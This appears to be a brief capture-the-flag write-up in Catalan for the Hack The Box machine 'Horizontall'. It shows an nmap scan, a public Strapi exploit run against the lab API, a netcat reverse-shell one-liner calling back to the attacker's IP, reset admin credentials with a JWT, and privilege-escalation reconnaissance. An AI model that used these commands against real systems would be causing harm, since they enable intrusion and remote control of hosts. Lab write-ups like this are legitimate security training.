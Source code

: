 Ens afegim la ip 10.10.11.105 al fitxer host

10.10.11.105 horizontall.htb

nmap:

nmap -p- -sV 10.10.11.105
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 18:35 CET
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.056s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Wappalyzer diu:

nginx 1.14.0

COPIEM L'SCRIPT EN PYTHON QUE UTILITZA UNA VULNERAVILITAT DE strapi

https://www.exploit-db.com/exploits/50239

python script.py http://api-prod.horizontall.htb/

COMANDA PER OBRIR UN TERMINAL REMOT CAP AL NOSTRE HOST:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.18 3535 >/tmp/f

Per trobar la versio dstrapi en el codi:

api-prod..../admin/init -> tambe hi ha la versio de l'strapi

strapi.*[123]\.[0]\.\d

Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQzOTEzMDQ2LCJleHAiOjE2NDY1MDUwNDZ9.IaeuvUzBwcBf6wdCu_icF4Dr2ydI0NrnlN0tqp8qk8w

No funciona -> python3 -c 'import pty; pty.spawn("/bin/bash")'

find / -perm /6000 2>/dev/null

exploit-db.com/exploits/49424
